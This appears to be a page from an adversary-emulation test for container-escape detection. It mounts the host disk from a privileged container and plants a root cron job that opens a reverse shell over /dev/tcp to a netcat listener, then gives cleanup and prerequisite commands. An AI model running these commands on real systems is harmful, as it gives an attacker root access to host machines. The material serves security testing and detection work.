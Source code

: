 
```sh
if [ ! -d #{mount_point} ]; then mkdir #{mount_point} ; mount #{mount_device} #{mount_point}; fi
echo -n "* * * * * root /bin/bash -c '/bin/bash -c echo \"\"; echo \"hello from host! " > #{mount_point}#{cron_path}/#{cron_filename}
echo -n "$" >> #{mount_point}#{cron_path}/#{cron_filename}
echo -n "(hostname) " >> #{mount_point}#{cron_path}/#{cron_filename}
echo -n "$" >> #{mount_point}#{cron_path}/#{cron_filename}
echo "(id)\" >& /dev/tcp/#{listen_address}/#{listen_port} 0>&1'" >> #{mount_point}#{cron_path}/#{cron_filename}
netcat -l -p #{listen_port} 2>&1
```

#### Cleanup Commands:
```sh
rm #{mount_point}#{cron_path}/#{cron_filename}
umount #{mount_point}
rmdir #{mount_point}
```



#### Dependencies:  Run with `sh`!
##### Description: Verify mount is installed.
##### Check Prereq Commands:
```sh
which mount
```
##### Get Prereq Commands:
```sh
if [ "" == "`which mount`" ]; then echo "mount Not Found"; if [ -n "`which apt-get`" ]; then sudo apt-get -y install mount ; elif [ -n "`which yum`" ]; then sudo yum -y install mount ; fi ; else echo "mount installed"; fi
```
##### Description: Verify container is privileged.
##### Check Prereq Commands:
```sh
capsh --print | grep cap_sys_admin
```
##### Get Prereq Commands:
```sh
if [ "`capsh --print | grep cap_sys_admin`" == "" ]; then echo "Container not privileged.  Re-start container in insecure state.  Docker: run with --privileged flag.  Kubectl, add securityContext: privileged: true"; fi
```
##### Description: Verify mount device (/dev/dm-0) exists.
##### Check Prereq Commands:
```sh
ls #{mount_device}
```
##### Get Prereq Commands:
```sh
if [ ! -f #{mount_device} ]; then echo "Container not privileged or wrong device path.  Re-start container in insecure state.  Docker: run with --privileged flag.  Kubectl, add securityContext: privileged: true"; fi
```
##### Description: Netcat is installed.
##### Check Prereq Commands:
```sh
which netcat
```
##### Get Prereq Commands:
```sh
if [ "" == "`which netcat`" ]; then echo "netcat Not Found"; if [ -n "`which apt-get`" ]; then sudo apt-get -y install netcat ; elif [ -n "`which yum`" ]; then sudo yum -y install netcat ; fi
```